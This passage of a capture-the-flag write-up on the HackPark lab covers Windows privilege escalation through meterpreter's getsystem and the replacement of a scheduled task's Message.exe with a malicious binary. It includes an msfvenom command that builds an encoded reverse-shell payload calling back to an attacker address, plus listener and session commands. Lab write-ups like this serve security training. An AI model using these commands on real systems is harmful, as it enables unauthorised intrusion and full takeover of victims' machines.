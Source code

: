 ## Method 1: Using meterpreter's getsystem

Use the command getsystem to elevate the privileges from local user to root user.

<img src="{{'/assets/img/images/06.HackPark/21.png' | prepend: site.baseurl }}" height="500">

## Method 2: Using Windows Scheduled Task

We already have the meterpreter reverse shell. Let's see what all processes are running.

<img src="{{'/assets/img/images/06.HackPark/22.png' | prepend: site.baseurl }}" height="700">

We can see that there are a lot of process running. Out of them WScheduler.exe is an interesting process because we can try to elevate our privileges by using the scheduled service. If we navigate to the path of SystemScheduler, there are a lot of processes. And when we navigate to events, we can see the log file 20198415519.INI_LOG.txt.

<img src="{{'/assets/img/images/06.HackPark/23.png' | prepend: site.baseurl }}" height="700">

<img src="{{'/assets/img/images/06.HackPark/24.png' | prepend: site.baseurl }}" height="500">

When we see the contents inside the log file, there is a specific process Message.exe running as administrator. So, let's try to replace this Message.exe with our malicious exe file with the same name.

<img src="{{'/assets/img/images/06.HackPark/25.png' | prepend: site.baseurl }}" height="600">

We will generate a payload using msfvenom.

```shell
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.6.10.164 LPORT=5555 -f exe -o Message.exe
```

Now we will background the current meterpreter session.

```shell
bg
```

Now set the port to 5555 and run the exploit in background.

```shell
set lport 5555

exploit -j
```

Now, get back to the first meterpreter session.

```shell
sessions -l

sessions -i 1
```
